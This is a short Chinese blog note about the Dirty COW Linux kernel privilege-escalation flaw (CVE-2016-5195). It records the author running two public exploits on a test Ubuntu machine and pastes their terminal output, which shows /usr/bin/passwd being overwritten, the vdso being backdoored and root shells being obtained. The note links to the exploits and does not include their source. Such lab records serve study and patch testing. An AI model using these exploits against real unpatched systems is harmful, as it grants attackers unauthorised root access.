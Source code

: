```yaml
---
title: CVE-2016-5195 Dirtycow 
date: 2016-10-26 09:35:13
tags: 
 - cve
categories: notes
---
```


## 概述
最近出来的dirtycow，影响版本:Linux kernel >= 2.6.22（2007年发行，到今年10月18日才修复）,用网上的EXP试了一下，记录一下过程
<!--more-->
### EXP

#### https://www.exploit-db.com/exploits/40616/

这个EXP是exploitdb上的，但是容易造成系统崩溃，成功后会返回一个root权限的shell

```
okami@ubuntu14:~$ ./dirtycow
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 47032
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd is overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@ubuntu14:/home/okami# id
uid=0(root) gid=1000(okami) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(okami)
root@ubuntu14:/home/okami# whoami
root
root@ubuntu14:/home/okami#
```

#### https://github.com/scumjr/dirtycow-vdso
这个EXP不会出现系统崩溃，但是作者本人说不适用于所有linux版本，不过试验了一下，ubuntu14 16 centOS7都可以
```
okami@ubuntu14:~$ ./0xdeadbeef
[*] exploit: patch 1/2
[*] vdso successfully backdoored
[*] exploit: patch 2/2
[*] vdso successfully backdoored
[*] waiting for reverse connect shell...
[*] enjoy!
[*] restore: patch 2/2
[*] vdso successfully restored
[*] restore: patch 1/2
[*] vdso successfully restored
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
```
注意这里有一步是waiting for reverse connect shell...，需要一点时间，成功后有root权限的shell


